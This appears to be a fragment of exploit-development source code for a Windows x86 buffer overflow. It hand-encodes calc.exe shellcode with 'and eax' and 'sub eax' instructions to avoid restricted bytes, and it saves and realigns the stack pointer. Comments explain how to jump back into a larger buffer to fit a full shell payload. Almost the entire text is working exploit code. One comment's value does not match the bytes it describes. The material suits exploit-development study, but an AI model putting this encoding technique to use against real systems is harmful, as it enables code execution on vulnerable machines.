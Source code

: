 ```console
# You would need to use bitwise AND plus the sub eax opcodes to get a value on the stack that could jump back to the A buffer, where there is
# much more room. Then you would need to align the stack with the stack pointer value you need (not 0x012F3F4 as used below) and write to the stack upwards.
# You should have enough room for all of the bitwise AND plus sub eax commands to get a full-sized shell payload on the stack.

# calc.exe shellcode:
# "\x31\xc9\x51\x68"
# "\x63\x61\x6c\x63"
# "\x54\xB8\xc7\x93"
# "\xc2\x77\xff\xd0"

# For zeroing out registers before manual shellcode
zero = "\x25\x01\x01\x01\x01"           # and eax, 0x01010101
zero += "\x25\x10\x10\x10\x10"          # and eax, 0x10101010

# We need to save the current stack pointer before execution of shellcode, due to
# old stack pointer value needed when executing our payload of calc.exe. This puts the current stack pointer 0x0012DC98 into ECX, to be used later
restore = "\x54" # push esp; (pushing the current value of ESP, which needs to be restored later, onto the stack)
restore += "\x59" # pop ecx; (holding the value of old ESP in ECX, to be called later.)
restore += "\x51" # push ecx; (to get the value on the stack for the mov esp command later)

# Stack alignment
# Need to make ESP 0x012F3F4. Using sub method to write that value onto the stack.
# After making ESP 0x012F3F4, it should be the same value as EAX- so we can write up the stack.
alignment = "\x54" # push esp
alignment += "\x58" # pop eax; (puts the value of ESP into EAX)

# Write these 3 sub values in normal format, since memory address, not instruction to be executed. You do not have to do
# it this way, but I do my calculations in normal format to remind me it is a memory address, when doing hex max. For my
# other operations, I used little endian. If you do all of the calculations in one way, you do not need to flip the sub 
# math difference results. This is how I keep things straight
# 384D5555 364D5555 364E5555
alignment += "\x2d\x38\x4d\x55\x55" # sub eax, 0x384D5555
alignment += "\x2d\x36\x4d\x55\x55" # sub eax, 0x364D5555
alignment += "\x2d\x36\x4e\x55\x55" # sub eax, 0x364E5555
alignment += "\x50" # push eax
alignment += "\x5c" # pop esp; (puts the value of eax back into esp)

# calc.exe shellcode, via the sub method. Values needed are as followed. Reference the calc.exe shellcode line for line numbers.
# 1st line = 2C552D14 01552D14 01562E16
shellcode = zero
shellcode += "\x2d\x14\x2d\x55\x2c" # sub eax, 0x2C552D14
shellcode += "\x2d\x14\x2d\x55\x01" # sub eax, 0x01562D14
shellcode += "\x2d\x16\x2e\x56\x01" # sub eax, 0x01562E16
shellcode += "\x50" # push eax; (get the value on the stack). We will do this for all remaining steps like this one.

# 2nd line = 24121729 24121739 2414194A
shellcode += zero
shellcode += "\x2d\x29\x17\x12\x24" # sub eax, 0x24121729
shellcode += "\x2d\x39\x17\x12\x24"     # sub eax, 0x24121739
shellcode += "\x2d\x4a\x19\x14\x24"     # sub eax, 0x2414194A (was 40 at the end, but a miscalc happened. Changed to 4A)
shellcode += "\x50" # push eax

```